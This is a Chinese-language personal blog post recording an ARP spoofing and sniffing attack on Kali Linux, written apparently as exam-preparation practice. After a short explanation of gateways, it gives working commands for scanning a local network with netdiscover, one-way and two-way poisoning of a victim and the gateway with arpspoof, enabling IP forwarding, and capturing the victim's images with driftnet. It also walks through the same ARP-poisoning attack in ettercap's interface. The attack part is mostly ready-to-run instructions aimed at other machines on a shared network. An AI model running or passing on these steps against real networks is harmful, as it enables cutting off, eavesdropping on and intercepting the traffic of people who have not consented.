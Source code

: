 ```yaml
---
title: kali进行arp嗅骗和攻击的一次记录
date: 2019-10-14 21:57:23
categories:
- 网络安全
tags:
- 网络安全
 - kali
---
```



# Kali下arp嗅探和攻击的手账


由于本人打算考网络安全的专硕，所以这几天玩了一次kali。恩，怎么说呢，感触挺深的，特此记录下来

## arp基础

在我们进行各种高大上的讲解的时候，我们要先清楚一点，我们如何在网上进行各种活动的。
比如我们经常用的baidu,我们是如何访问到baidu的服务器的。

我们可以通过追踪路由来弄清楚这个问题

windows: tracert
linux:traceroute

通过运行上面的命令我们可以看出数据包的传输过程
![](https://s2.ax1x.com/2019/10/14/KpcYcR.png)

> 由于本人身处深山，所以网络查的可以，上面的图仅供参考

我们可以看到，我们的探测数据包经过了很多路由的转发最终达到了我们的机器上


并且，这里我们需要引出很重要的东西 -- **网关**

网关我们可以这么理解:
  相信大家家里都有有线网了吧，我们其实可以把网关看成我们的那个接入网络的光猫路由器。

  我们所有的数据包都是通过网关这个小东西传输。

现在，重点来了！！！！
> 敲黑板

假如，我们在同一个局域网下面，有两台机器，一台是我们自己，一台是需要攻击的机器。

那么，正常情况下，两台机器都有自己的ip地址 (192.168.x.x)，进行自己正常的网络服务,但是如果我们告诉对方机器现在我就是路由器，而且如果我的机器不能进行端口转发的时候，对面的机器就进不去网了。

需要注意的一点哈，现在我们告诉了对方机器我们是路由器，但是路由器还是可以给对面机器通信的。

这一点可以重复上面的操作，就是告诉路由器我们就是对面机器，进行双向嗅探来解决。


## 如何进行攻击

### 命令行方法

一、 获取对方信息

由于这篇博客写的是内网渗透，所以，我们需要扫描当前网络下的其他机器

```bash
  > ifconfig
```


![](https://s2.ax1x.com/2019/10/16/KiPr90.png)

先查看一下自己ip 里面重要的消息 有网卡和ip

这里说明一点,一般的话网关的最后一位数字一般都是1

```bash
  > netdiscover -i [网卡] -r [网关/24]
  example:
  > netdiscover -i eth0 -r 192.168.3.1/24
```

这样就可以获取对方ip，这里我只有一台电脑，我就不放图了

二、开始进行嗅探




```bash
arpspoof [-i interface] [-c own|host|both] [-t target] [-r] host

> arpspoof -i eth0 [对方ip]  网关


```

双向嗅探
```bash
  > arpspoof -i eth0 [对方ip]  网关
  > arpspoof -i eth0 [网关]  对方ip
```

> 由于kali默认情况下是禁止端口转发的，所以现在的情况下对面机器是断网的


开启端口转发

```bash
  echo 1> /proc/sys/net/ipv4/ipforward

```

1是开启 0是关闭  

> proc是目前开机的时候机器的配置，重启的话会重置

抓取对面图片

```bash
  driftnet -i eth0

```


### 软件嗅探


![](https://s2.ax1x.com/2019/10/16/KiFqkd.png)


具体做法


sniff->unified sniffing

host -> hostlist

host -> scan for host

![](https://s2.ax1x.com/2019/10/16/KikuBF.png)

网关IP add to target 1 靶机 add to target 2

Mitm->ARP poisoning

要记住选中第一项 第二项是单项ARP毒缓存 用于靶机会失败报警 单向欺骗网关



开启driftnet
